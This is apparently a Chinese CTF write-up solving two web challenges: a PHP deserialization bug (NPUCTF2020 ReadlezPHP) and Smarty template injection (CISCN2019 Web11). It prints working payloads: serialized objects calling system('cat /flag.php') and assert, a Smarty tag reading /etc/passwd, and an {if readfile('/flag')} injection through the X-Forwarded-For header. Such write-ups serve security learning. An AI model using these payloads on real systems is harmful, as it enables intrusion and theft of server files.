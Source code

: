 ## [NPUCTF2020]ReadlezPHP

![image-20240509194831417](https://raw.githubusercontent.com/odiws/blog-img/main/image-20240509194831417.png)

有个time是很明显的时间，可以直接搜time。

点进去发现是

![image-20240509195007157](https://raw.githubusercontent.com/odiws/blog-img/main/image-20240509195007157.png)

可以发现data参数，source不能出现，反序列化，

__destruct(类执行完毕以后调用，其最主要的作用是拿来做垃圾回收机制。)

__construct(类一执行就开始调用，其作用是拿来初始化一些值。)

__construct是一开始就会初始化的，在我给她赋值之前会有一个初始化，不影响我给它赋值。

直接data=O:8:"HelloPhp":2:{s:1:"a";s:13:"cat /flag.php";s:1:"b";s:6:"system";}发现不能显示，可能是在phpinfo了。

?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}

获得php指针，找到flag



## [CISCN2019 华东南赛区]Web11

参考文章：[Smarty SSTI](https://www.jianshu.com/p/eb8d0137a7d3)

**1.{php}**

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**2.{literal}标签**

{literal}可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

**PHP5中可用**



```
<script language="php">phpinfo();</script>
```

**3.getStreamVariable**

这个方法可以读取一个文件并返回其内容，可以用self来获取Smarty对象并调用这个方法

**新版本smarty已将该静态方法删除**



```
payload：{self::getStreamVariable("file:///etc/passwd")}
```

**4.{if}标签**

Smarty的{if}条件判断和PHP的if 非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用，如*||*,*or*,*&&*,*and*,*is_array()*, 等等



```
{if phpinfo()}{/if}
```

***1\***|***2\*****题解**

打开题目观察网页发现是用的smarty模板，同时我们的IP显示在了右上角

API Usage处直接在url处修改 发现回显在API URI中但是通过尝试发现没啥用

[![图一](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031505%E5%9B%BE%E4%B8%80.png)](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031505图一.png)

利用bp抓包在headers添加



```
x-forwarded-for:{2-1}
```

右上角IP回显为1，找到注入点

[![图二](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031510%E5%9B%BE%E4%BA%8C.png)](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031510图二.png)

根据文章中的{if}标签可以读出flag



```
{if readfile('/flag')}{/if}
```

[![图三](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031516%E5%9B%BE%E4%B8%89.png)](https://images.cnblogs.com/cnblogs_com/rabbittt/1805156/o_200713031516图三.png)